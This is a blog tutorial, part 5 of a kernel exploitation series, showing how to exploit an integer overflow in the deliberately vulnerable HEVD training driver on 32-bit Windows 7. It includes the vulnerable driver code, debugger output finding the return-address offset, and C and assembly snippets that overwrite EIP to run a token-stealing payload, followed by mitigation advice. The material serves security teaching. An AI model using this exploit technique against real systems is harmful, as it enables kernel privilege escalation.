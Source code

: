 ```yaml
---
layout: post
title: "[Kernel Exploitation] 5: Integer Overflow"
date: 2018-01-13 00:00:00
share: true
comments: true
description: Part 5 discusses a common vulnerability class called integer overflow.
tags: [Kernel Exploitation]
---
```


*This part shows how to exploit a vanilla integer overflow vulnerability. Post builds up on lots of contents from part 3 & 4 so this is a pretty short one.*

*Exploit code can be found [here](https://github.com/abatchy17/HEVD-Exploits/tree/master/IntegerOverflow).*

---

### 1. The vulnerability

Link to code [here](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/106e3dd5d9c49326d55ce17c919bffa68ead1467/Driver/IntegerOverflow.c#L65).

```cpp
NTSTATUS TriggerIntegerOverflow(IN PVOID UserBuffer, IN SIZE_T Size) {
    ULONG Count = 0;
    NTSTATUS Status = STATUS_SUCCESS;
    ULONG BufferTerminator = 0xBAD0B0B0;
    ULONG KernelBuffer[BUFFER_SIZE] = {0};
    SIZE_T TerminatorSize = sizeof(BufferTerminator);

    PAGED_CODE();

    __try {
        // Verify if the buffer resides in user mode
        ProbeForRead(UserBuffer, sizeof(KernelBuffer), (ULONG)__alignof(KernelBuffer));

        DbgPrint("[+] UserBuffer: 0x%p\n", UserBuffer);
        DbgPrint("[+] UserBuffer Size: 0x%X\n", Size);
        DbgPrint("[+] KernelBuffer: 0x%p\n", &KernelBuffer);
        DbgPrint("[+] KernelBuffer Size: 0x%X\n", sizeof(KernelBuffer));

#ifdef SECURE
        // Secure Note: This is secure because the developer is not doing any arithmetic
        // on the user supplied value. Instead, the developer is subtracting the size of
        // ULONG i.e. 4 on x86 from the size of KernelBuffer. Hence, integer overflow will
        // not occur and this check will not fail
        if (Size > (sizeof(KernelBuffer) - TerminatorSize)) {
            DbgPrint("[-] Invalid UserBuffer Size: 0x%X\n", Size);

            Status = STATUS_INVALID_BUFFER_SIZE;
            return Status;
        }
#else
        DbgPrint("[+] Triggering Integer Overflow\n");

        // Vulnerability Note: This is a vanilla Integer Overflow vulnerability because if
        // 'Size' is 0xFFFFFFFF and we do an addition with size of ULONG i.e. 4 on x86, the
        // integer will wrap down and will finally cause this check to fail
        if ((Size + TerminatorSize) > sizeof(KernelBuffer)) {
            DbgPrint("[-] Invalid UserBuffer Size: 0x%X\n", Size);

            Status = STATUS_INVALID_BUFFER_SIZE;
            return Status;
        }
#endif

        // Perform the copy operation
        while (Count < (Size / sizeof(ULONG))) {
            if (*(PULONG)UserBuffer != BufferTerminator) {
                KernelBuffer[Count] = *(PULONG)UserBuffer;
                UserBuffer = (PULONG)UserBuffer + 1;
                Count++;
            }
            else {
                break;
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER) {
        Status = GetExceptionCode();
        DbgPrint("[-] Exception Code: 0x%X\n", Status);
    }

    return Status;
}
```

Like the comment says, this is a vanilla integer overflow vuln caused by the programmer not considering a very large buffer size being passed to the driver. Any size from `0xfffffffc` to ``0xffffffff` will cause this check to be bypassed. Notice that the copy operation terminates if the terminator value is encountered (has to be 4-bytes aligned though), so we don't need to submit a buffer length of size equal to the one we pass.


#### Exploitability on 64-bit 

The `InBufferSize` parameter passed to `DeviceIoControl` is a DWORD, meaning it's always of size 4 bytes. In the 64-bit driver, the following code does the comparison:

At `HEVD!TriggerIntegerOverflow+97`:
```
fffff800`bb1c5ac7 lea     r11,[r12+4]
fffff800`bb1c5acc cmp     r11,r13
```

Comparison is done with 64-bit registers (no prefix/suffix was used to cast them to their 32-bit representation). This way, `r11` will never overflow as it'll be just set to `0x100000003`, meaning that this vulnerability is **not exploitable** on 64-bit machines.

Update: I didn't realize it at first, but the reason those values are treated fine in x64 arch is that all of them are of `size_t`. 

---

### 2. Controlling execution flow

First, we need to figure out the offset for EIP. Sending a small buffer and calculating the offset between the kernel buffer address and the return address will do:

```
kd> g
[+] UserBuffer: 0x00060000
[+] UserBuffer Size: 0xFFFFFFFF
[+] KernelBuffer: 0x8ACF8274
[+] KernelBuffer Size: 0x800
[+] Triggering Integer Overflow
Breakpoint 3 hit
HEVD!TriggerIntegerOverflow+0x84:
93f8ca58 add     esp,24h

kd> ? 0x8ACF8274 - @esp
Evaluate expression: 16 = 00000010
kd> ? (@ebp + 4) - 0x8ACF8274
Evaluate expression: 2088 = 828
```

Notice that you need to have the terminator value 4-bytes aligned as otherwise it will use the submitted `Size` parameter which will ultimately result in reading beyond the buffer and possibly causing an access violation.

Now we know that RET is at offset **2088**. The terminator value should be at `2088 + 4`.

```cpp
char* uBuffer = (char*)VirtualAlloc(
	NULL,
	2088 + 4 + 4,               // EIP offset + 4 bytes for EIP + 4 bytes for terminator
	MEM_COMMIT | MEM_RESERVE,
	PAGE_EXECUTE_READWRITE);

// Constructing buffer
RtlFillMemory(uBuffer, SIZE, 'A');

// Overwriting EIP
DWORD* payload_address = (DWORD*)(uBuffer + SIZE - 8);
*payload_address = (DWORD)&StealToken;

// Copying terminator value
RtlCopyMemory(uBuffer + SIZE - 4, terminator, 4);
```

That's pretty much it! At the end of the payload (`StealToken`) you need to make up for the missing stack frame by calling the remaining instructions (explained in detail in part 3).

```nasm
pop ebp								; Restore saved EBP
ret 8								; Return cleanly
```

![shell]({{ "/images/kernel6.png" | absolute_url }})

Full exploit can be found [here](https://github.com/abatchy17/HEVD-Exploits/tree/master/IntegerOverflow/Win7_x86_SP1).

### 3. Mitigating the vulnerability

1. Handle all code paths that deal with arithmetics with extreme care (especially when they're user-supplied). Check operants/result for overflow/underflow condition.

2. Use an integer type that will be able to hold all possible outputs of the addition, although this might not be always possible.


[SafeInt](http://safeint.codeplex.com/) is worth checking out too.

### 4. Recap

1. Vulnerability was not exploitable on 64-bit systems due to the way the comparison takes place between two 64-bit registers and the maximum value passed to `DeviceIoControl` will never overflow.

2. Submitted buffer had to contain a 4-byte terminator value. This is the simplest form of crafting a payload that needs to meet certain criteria.

3. Although our buffer wasn't of extreme size, "lying" about its length to the driver was possible.

---

\- Abatchy